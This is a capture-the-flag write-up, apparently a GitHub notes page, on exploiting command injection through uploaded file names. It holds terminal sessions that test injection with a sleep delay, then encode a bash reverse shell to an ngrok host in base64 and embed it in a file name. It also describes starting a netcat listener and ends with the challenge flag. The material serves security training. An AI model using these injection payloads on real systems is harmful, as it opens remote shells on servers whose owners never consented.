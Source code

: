 ```
C:\home\radha\Desktop\ctf> ls
'file1";id'
                                                                                                                                                                      
C:\home\radha\Desktop\ctf> 


```
![image](https://github.com/m0wn1ka/ctf/assets/127676379/e2bc4435-8606-4bae-a61b-1ac9bae92f51)
- can take help of this https://hackmd.io/@dnny/rycRxP99n
```
C:\home\radha\Desktop\ctf\part2> touch 'abc$(sleep${IFS}13).txt'
                                                                                                                                                                      
C:\home\radha\Desktop\ctf\part2> ls
'abc$(sleep${IFS}13).txt'
                                                                                                                                                                      
C:\home\radha\Desktop\ctf\part2> 
```
this does make the output come slowy





$(echo${IFS}'bHMK'|base64${IFS}-d|bash).txt
```
C:\home\radha\Desktop\ctf\part2\web> echo 'bash -i >& /dev/tcp/0.tcp.in.ngrok.io/18309 0>&1'|base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xODMwOSAwPiYxCg==
                                                                                                                                                                      
C:\home\radha\Desktop\ctf\part2\web> echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xODMwOSAwPiYxCg'|base64 -d
bash -i >& /dev/tcp/0.tcp.in.ngrok.io/18309 0>&1
base64: invalid input
                                                                                                                                                                      
C:\home\radha\Desktop\ctf\part2\web> echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xODMwOSAwPiYxCg=='|base64 -d
bash -i >& /dev/tcp/0.tcp.in.ngrok.io/18309 0>&1
                                                                                                                                                                      
C:\home\radha\Desktop\ctf\part2\web> 

```
- started  a ngrok server at 1332
![image](https://github.com/m0wn1ka/ctf/assets/127676379/92c172a5-ff8e-43e1-9aed-48eab588f7e2)
- started a netcat listenr at 1332
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/36d77912-326b-40fd-91ad-0d13219952e6)
```
C:\home\radha\Desktop\ctf\part2\web> echo 'bash -i >& /dev/tcp/0.tcp.in.ngrok.io/18309 0>&1'|base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xODMwOSAwPiYxCg==
C:\home\radha\Desktop\ctf\part2> touch 'efg$(echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xODMwOSAwPiYxCg=="|base64${IFS}-d|bash).mp3'
```
- uploading this file will give a reverse shell
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/40f709e9-9e9d-4a6b-9474-cccf43f09052)
 ![image](https://github.com/m0wn1ka/ctf/assets/127676379/456a8306-b9bc-45e1-a093-c8d3200946ad)

 
ENV flag="0CTF{Congratulations_for_finding_the_flag}"




